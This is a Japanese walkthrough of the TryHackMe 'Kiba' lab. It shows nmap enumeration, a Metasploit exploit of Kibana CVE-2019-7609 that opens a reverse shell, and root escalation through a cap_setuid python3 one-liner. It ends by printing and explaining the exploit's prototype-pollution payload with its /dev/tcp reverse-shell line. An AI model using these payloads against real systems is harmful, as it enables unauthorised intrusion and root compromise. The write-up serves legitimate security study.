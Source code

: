 # Kiba CTF

https://tryhackme.com/room/kiba

## Enumeration

### ポートスキャン

```shell
TARGET=10.10.168.107
root@ip-10-10-239-143:~# sudo nmap -sS -p- $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-15 23:19 GMT
Nmap scan report for 10.10.168.107
Host is up (0.015s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5601/tcp open  esmagent
MAC Address: 02:51:FE:6A:35:B9 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 6.44 seconds

root@ip-10-10-239-143:~# sudo nmap -sV -p22,80,5601 $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-15 23:21 GMT
Nmap scan report for 10.10.168.107
Host is up (0.0035s latency).

PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
5601/tcp open  esmagent?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

- 5601をブラウザで表示したら、Kibanaのダッシュボード
- Managementメニューから、バージョンは6.5.4
- CVE-2019-7609 RCE脆弱性がある  
https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability

## CVE-2019-7609

metasploit

```shell
msf6 exploit(linux/http/kibana_timelion_prototype_pollution_rce) > set RHOSTS 10.10.168.107
RHOSTS => 10.10.168.107
msf6 exploit(linux/http/kibana_timelion_prototype_pollution_rce) > set LHOST 10.2.22.182
LHOST => 10.2.22.182
msf6 exploit(linux/http/kibana_timelion_prototype_pollution_rce) > exploit

[*] Started reverse TCP handler on 10.2.22.182:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable Version Detected: 6.5.4
[*] Polluting Prototype in Timelion
[*] Trigginger payload execution via canvas socket
[*] Waiting for shells
[*] Unsetting to stop raining shells from a lacerated kibana
[*] Unsetting to stop raining shells from a lacerated kibana
[*] Command shell session 1 opened (10.2.22.182:4444 -> 10.10.168.107:39744) at 2025-03-15 19:29:43 -0400
```

セッションオープン成功。

```shell
kiba@ubuntu:/home/kiba/kibana/bin$ ls -al /home/kiba
ls -al /home/kiba
total 111064
drwxr-xr-x  6 kiba kiba      4096 Mar 15 16:29 .
drwxr-xr-x  3 root root      4096 Mar 31  2020 ..
-rw-rw-r--  1 kiba kiba    407592 Mar 15 16:29 .babel.json
-rw-------  1 kiba kiba      9605 Mar 31  2020 .bash_history
-rw-r--r--  1 kiba kiba       220 Mar 31  2020 .bash_logout
-rw-r--r--  1 kiba kiba      3771 Mar 31  2020 .bashrc
drwx------  2 kiba kiba      4096 Mar 31  2020 .cache
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .hackmeplease
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .nano
-rw-r--r--  1 kiba kiba       655 Mar 31  2020 .profile
-rw-r--r--  1 kiba kiba         0 Mar 31  2020 .sudo_as_admin_successful
-rw-r--r--  1 root root       176 Mar 31  2020 .wget-hsts
-rw-rw-r--  1 kiba kiba 113259798 Dec 19  2018 elasticsearch-6.5.4.deb
drwxrwxr-x 11 kiba kiba      4096 Dec 17  2018 kibana
-rw-rw-r--  1 kiba kiba        35 Mar 31  2020 user.txt
```

```shell
kiba@ubuntu:/home/kiba/kibana/bin$ cat /home/kiba/user.txt
cat /home/kiba/user.txt
THM{...................}
```

ユーザーフラグゲット。

## 権限昇格

質問文で capability に言及しているので調べる。

```shell
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

エクスプロイト

```shell
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

ルートシェル取得成功

```shell
# id
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

```shell
# ls -al /root
ls -al /root
total 28
drwx------  4 root root 4096 Mar 31  2020 .
drwxr-xr-x 22 root root 4096 Mar 31  2020 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Mar 31  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   45 Mar 31  2020 root.txt
drwxr-xr-x  2 root root 4096 Mar 31  2020 ufw
# cat /root/root.txt
cat /root/root.txt
THM{....................}
```

ルートフラグゲット！

## 振り返り

質問文の流れに従えば簡単で、学ぶ部分が無かったので、エクスプロイトコードの解析を行う。  
https://github.com/LandGrey/CVE-2019-7609/blob/master/CVE-2019-7609-kibana-rce.py

下記の data を "/api/timelion/run" に Postしてリバースシェルを取得している。

```python
data = r'''{"sheet":[".es(*).props(label.__proto__.env.AAAA='require(\"child_process\").exec(\"if [ ! -f /tmp/%s ];then touch /tmp/%s && /bin/bash -c \\'/bin/bash -i >& /dev/tcp/%s/%s 0>&1\\'; fi\");process.exit()//')\n.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')"],"time":{"from":"now-15m","to":"now","mode":"quick","interval":"10s","timezone":"Asia/Shanghai"}}''' % (random_name, random_name, ip, port)
```

.es は Timelionのクエリ であり、Elasticsearch からデータを取得するための構文。取得したデータ自体に意味はない。

```python
.es(*)
```

.props は Timelion（Kibana）の関数 で、グラフのプロパティを設定するために使われる。通常は下記のような形でプロパティを設定する。

```python
.es(*).props(label='CPU Usage', color='red')
```

しかし、エクスプロイトコードでは、label の ```__proto__.env``` を介して環境変数にアクセスすることにより、

１．環境変数「AAAA」に javascript のリバースシェルコードの文字列を設定している。

```python
.props(label.__proto__.env.AAAA='require(\"child_process\").exec(\"if [ ! -f /tmp/%s ];then touch /tmp/%s && /bin/bash -c \\'/bin/bash -i >& /dev/tcp/%s/%s 0>&1\\'; fi\");process.exit()//')
```

２．環境変数「NODE_OPTIONS」に '--require /proc/self/environ' 文字列を設定している。これにより、Node.js 実行時に環境変数のリストが入った /proc/self/environ が require される。

```python
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

Node.js の require は、js ならNode.jsアドオンとしてロードし、JSONならパースする。また、テキストファイルの場合は javascript として実行しようとする。

ここで、環境変数 AAAA には js コードの文字列が設定されているため、Node.js 実行時にリバースシェルの子プロセスが生成されるという仕組みになっている。
